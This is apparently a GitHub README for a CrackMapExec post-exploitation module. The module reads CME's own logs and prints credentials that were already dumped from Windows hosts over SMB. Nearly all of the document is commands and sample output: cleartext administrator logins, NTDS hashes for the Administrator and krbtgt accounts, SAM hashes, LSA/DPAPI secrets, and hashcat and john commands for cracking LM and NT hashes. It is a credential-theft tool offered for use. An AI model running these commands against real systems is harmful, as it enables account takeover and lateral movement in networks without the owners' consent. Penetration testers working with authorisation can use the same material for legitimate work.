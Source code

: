 # CME-Module-info
CrackMapExec module checks LOG files (in combination with IP & Hostname) when connected to the system and prints login information from logs.

    crackmapexec smb 10.10.10.10 -M info
        [+] (Pwnd3!): TEST-PC\administrator:password -id 12 (Prints pwnd accounts with credential ID to login faster)
    
    crackmapexec smb 10.10.10.10 -id 12
        [+] TEST-PC\administrator:password (Pwn3d!)


https://user-images.githubusercontent.com/49560894/176028088-213208f7-fe13-4f3e-9285-6a84b9abe9c7.mp4


    crackmapexec smb 10.10.10.10 -M info --ntds      (Prints Administrator and krbtgt hashes)
        [+] NTDS: location: /root/.cme/logs/TEST-PC_192.168.56.113_2022-05-31_081331.ntds
        [+] NTDS: Administrator:500:111f37ed915c5716aad3b435b51404ee:eb37f9cd74303274cb923442a7348ef4:::    
        [+] NTDS: krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f031bf1f16bba6f9de84dffcc164e0f8::: 
        [+] NTDS: LM Crack: [hashcat -m 3000 -a 3 /location] or [john --format=lm /location] detected 18x (Prints when available)
        [+] NTDS: NT Crack: [hashcat -m 1000 -a 3 /location] or [john --format=nt /location]   
        
   ![image](https://user-images.githubusercontent.com/49560894/176029558-c06238a8-cc26-4607-a5b1-d53c57857b34.png)

   
    crackmapexec smb 10.10.10.10 -M info --sam       (Prints SAM file only local Administrator with valid password)
        [+] SAM: Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c::: 

![image](https://user-images.githubusercontent.com/49560894/176030994-6c60df1e-88fe-4c20-ac80-7791295bddf7.png)


    
    crackmapexec smb 10.10.10.10 -M info --lsa
        [+] LSA: dpapi_machinekey:0x4e467fabe4afb57..ce3730
        [+] LSA: dpapi_userkey:0x0797f33ba6c6043ff7..1558bc
        [+] LSA: NL$KM:c53c6dcd9cff1a4cf8355c4f3c40..32d1be
        
![image](https://user-images.githubusercontent.com/49560894/176030457-ffdf792e-0f70-494a-9ece-f9f8a6988a40.png)


    crackmapexec smb 10.10.10.10 -M info --only-file        (Prints all LOG files location)
        [+] LOG: location: /root/.cme/logs/TEST-PC_192.168.56.113_2022-05-31_081331.ntds
        [+] LOG: location: /root/.cme/logs/TEST-PC_192.168.56.113_2022-06-21_113422.sam
        [+] LOG: location: /root/.cme/logs/TEST-PC_192.168.56.113_2022-06-23_180720.secrets
        [+] LOG: location: ...snip.. 

    crackmapexec smb 10.10.10.10 -M info --only-file --sam
        [+] LOG: location: /root/.cme/logs/TEST-PC_192.168.56.113_2022-06-21_113422.sam
   
    crackmapexec smb 10.10.10.10 -M info --only-file --lsa
        [+] LOG: location: /root/.cme/logs/TEST-PC_192.168.56.113_2022-06-23_180720.secrets
   
    crackmapexec smb 10.10.10.10 -M info --only-file --ntds 
        [+] LOG: location: /root/.cme/logs/TEST-PC_192.168.56.113_2022-05-31_081331.ntds
